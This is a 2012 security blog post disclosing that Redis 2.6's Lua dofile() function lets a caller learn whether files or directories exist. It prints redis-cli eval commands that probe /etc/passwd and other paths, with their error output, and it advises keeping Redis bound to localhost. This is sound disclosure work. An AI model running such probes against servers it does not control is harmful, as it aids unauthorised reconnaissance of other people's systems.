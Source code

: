 ```yaml
---
date: 2012-11-14 18:34:00 GMT
slug: filesystem-enumeration-using-redis-and-lua
tumblr_post_url: http://blog.liftsecurity.io/post/35714931664/filesystem-enumeration-using-redis-and-lua
tags: redis, lua, security
title: Filesystem Enumeration using Redis and Lua
type: text
---
```


[Redis 2.6][0] was recently released by [Antirez][1] at the end of [RedisConf][2]. One of the major features that comes with 2.6 is embedded [Lua scripting][3].   
  
Even though the Lua sandbox within Redis has been very locked down to only the base library and a [few others][4], we have found at least one way to abuse Lua to get some data from outside the sandbox.  
  
There is a function to load and execute a file called dofile()  
  
Given the fact that Lua scripts should perform atomically, this function shouldn't actually exist in the sandbox. We have a pending [pull request][5] to remove this function.  
  
The errors this function gives allow an attacker to determine if a file or directory exists or not. This might be useful in locating a web root or determining the operating system. Not a significant vulnerability in and of itself, but gives information to an attacker they would not otherwise have.  
  
When a file doesn't exist we get a very obvious "No such file or directory error"  
  
net read 127.0.0.1:6379 id 1: -ERR Error running script (call to f\_b5e5869caf1de9ffa1ae173bf46fef3024d3f987): cannot open /dev/a: **No such file or directory**   
  
  
Here is an example of how to do this enumeration from a shell.

    $ redis-cli -h localhost -p 6379 eval "dofile('/etc/passwd')" 0

(error) ERR Error running script (call to f\_afdc51b5f9e34eced5fae459fc1d856af181aaf1): /etc/passwd:2: unexpected symbol near '\#'

    $ redis-cli -h localhost -p 6379 eval "dofile('/tmp')" 0

(error) ERR Error running script (call to f\_70391feea8a62e239b3055c11b7d9d1d8c78db6e): cannot read /tmp: **Is a directory**

    $ redis-cli -h localhost -p 6379 eval "dofile('/doesnotexist')" 0

(error) ERR Error running script (call to f\_e84ccf03dc6b3547568096467afa7b3242ed108d): cannot open /doesnotexist: **No such file or directory**   
  
Conclusion for penetration testers:  
Keep an eye out for Redis servers on the network during your assessments   
  
Conclusion for everyone else:  
Keep your Redis server off the Internet by setting "bind 127.0.0.1" in the redis.conf file.   
  


[0]: http://redis.io/
[1]: https://twitter.com/antirez
[2]: http://redisconf.com
[3]: http://redis.io/commands/eval
[4]: https://gist.github.com/3924845
[5]: https://github.com/antirez/redis/pull/732